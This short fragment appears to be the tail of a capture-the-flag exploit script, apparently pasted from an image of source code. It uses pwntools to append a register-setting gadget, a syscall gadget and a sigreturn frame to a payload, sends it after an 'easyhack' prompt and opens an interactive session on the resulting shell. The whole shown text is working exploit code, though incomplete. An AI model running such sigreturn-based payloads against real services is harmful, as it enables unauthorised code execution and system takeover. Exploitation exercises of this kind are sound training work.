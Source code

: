 ```plain
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

io.sendafter('easyhack\n',payload)

io.send('a')

io.interactive()
```
